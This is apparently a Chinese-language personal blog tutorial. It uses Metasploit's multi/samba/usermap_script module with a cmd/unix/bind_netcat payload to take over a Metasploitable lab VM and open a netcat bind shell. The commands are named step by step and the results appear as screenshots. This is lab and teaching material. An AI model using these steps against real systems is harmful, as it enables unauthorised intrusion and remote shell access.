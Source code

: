 ```yaml
---
layout:     post
title:      Samba 服务漏洞
subtitle:   一个 metasploit 的简单入侵
date:       2019-05-22
author:     Nikola
header-img: img/post-bg-ios9-web.jpg
catalog: true
tags:
    - 服务漏洞
    - metasploit
    
---
```


<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=1341964346&auto=1&height=66"></iframe>



### 开始

#### 一个 metasploit 的简单入侵

首先下载 Linux Metasploitable 靶机虚拟机镜像来进行模拟攻击

这是我安装好的虚拟机 Metasploitable 靶机 ip:192.168.195.140

然后在 kali 中下面进行以下操作：

1） ： 在命令终端输入 msfconsole 命令

2） ： 因为 Linux Metasploitable 靶机存在 Samba 服务漏洞， 所以可以选择他进行

攻击， 那么先用 search 命令来从 metasploit 的渗透代码库中找出 Samba 服务模块， 我们选择

multi/samba/usermap_script 

![](https://nikolablog-1258612035.cos.ap-shanghai.myqcloud.com/20190522162406.png)

执行 use multi/samba/usermap_script 命令选择这个渗透攻击模块 

然后 

![](https://nikolablog-1258612035.cos.ap-shanghai.myqcloud.com/20190522162528.png)

Show payloads 来查看与该渗透攻击模块相兼容的攻击载荷， 接下来执行 set payload
cmd/unix/bind_netcat,选择 bind_netcat,即使用 netcat 工具在渗透攻击后执行 shell,并通过
netcat 绑定在一个监听的端口上。
然 后 查 看 还 需 要 哪 些 配 置 参 数 执 行 show options 命 令 

![](https://nikolablog-1258612035.cos.ap-shanghai.myqcloud.com/20190522162620.png)

发现只需要给 RHOST 指定 IP 即可 

![](https://nikolablog-1258612035.cos.ap-shanghai.myqcloud.com/20190522162658.png)

到此成功入侵。
我们来验证一下： 

![](https://nikolablog-1258612035.cos.ap-shanghai.myqcloud.com/20190522162749.png)

目标 IP 就是 192.168.195.140 

这是以前写的简单的教程，现在整理一下，想想当年的那个热血青年，内心中有种莫名的冲动，热血仍在。。。。